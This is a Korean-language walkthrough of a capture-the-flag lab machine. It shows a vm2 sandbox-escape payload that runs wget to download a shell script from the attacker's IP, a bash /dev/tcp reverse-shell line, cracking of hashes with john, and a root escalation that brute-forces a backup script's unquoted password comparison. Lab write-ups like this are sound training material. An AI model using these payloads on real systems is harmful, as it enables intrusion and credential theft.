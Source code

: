 ### 초기
- Node.js code를 온라인에서 실행하는 샌드 박스 프로그램이 있는 것을 확인
- 해당 웹 서버에는 제한 사항이 있음(사용 불가 기능)
  - fs
  - 자식 프로세스

- 3.9.16 이하 버전 vm2 취약점이 있는 것을 알 수 있었다.
- 순서
  - 에러 객체에 오버라이딩 함
  - 에러를 발생시켜 오버라이딩한 내용을 실행
  - access objects created outside the sandbox and execute arbitrary code
- 해당 코드를 사용하여 실행한다.

```
const {VM}=require("vm2");
const vm=new VM();

const code=`
const customInspectSymbol=Symbol.for('nodejs.util.inspect.custom');

obj={

[customInspectSymbol]: (depth, opt, inspect)=>{
inspect.constructor('return process')().mainModule.require('child_process').execSync('wget <내 ip>:80/shell.sh');
}, valueOf: undefined,
constructor: undefined,
}
WebAssembly.compileStreaming(obj).catch(()=>{});
`;
vm.run(code);
```
- execSync('')안에 실행할 코드를 넣는다.
- python3 -m http.server 80 실행 후 wget http://10.10.14.33:80/shell.sh 를 넣어 쉘을 다운로드 시킨다.</br>

### shell.sh에
### #!/bin/bash
### sh -i >& /dev/tcp/10.10.14.33/4444 0>&1 를 넣고 원격으로 실행 시킨다.
- chmod +x shell.sh, ./shell.sh 를 순서대로 넣어 reverse shell을 획득한다.
- 내부에서 얻은 결과
  - joshua 폴더로 이동할 수 없었다.
  - /var/www/contact/tickets.db 파일에서 pw 해시 값을 얻을 수 있었다.
- john pw.txt --wordlist=/usr/share/wordlists/rockyou.txt로 비밀번호 크랙을 시도한다.
- spongebob1 값을 찾았고 이를 사용하여 ssh joshua@10.10.11.239로 접속을 시도한다.</br>

  ### ssh로 연결 한 후
- sudo -l로 sudo 권한으로 실행할 수 있는 파일인 mysql-backup.sh를 찾을 수 있다.
  - mysql-backup.sh: mysql 백업 스크립트
  - sudo -l: 시스템의 현재 사용자 또는 지정된 사용자에게 부여 된 권한을 나열
- mysql-backup.sh
  - 스크립트 파일안에 pw를 검증하는 코드가 있는데 DB_PASS==USER_PASS에서 USER_PASS가 " " 안에 없을 경우 문자열로 인식하지 않고 pattern matching을 사용한다
  - 한 글자씩 비교하고 정규표현식으로 *를 넣어 패스워드를 비교한다
  - crack1.py를 만들고 python3 crack1.py로 실행하여 pw를 찾는다
  - 찾은 pw로 su root를 실행하여 root.txt를 찾는다</br>

  ### 결론
- nodejs 코드 실행기에서 샌드박스 이스케이프를 활용하여 코드를 실행
- 취약한 mysql 백업 스크립트에서 root 패스워드 탈취
- bash에서 실행되는 db.sh이므로 brute force에 취약했음
- 웹 앱, db, 스크립트 광범위한 분야에서 보호해야 한다
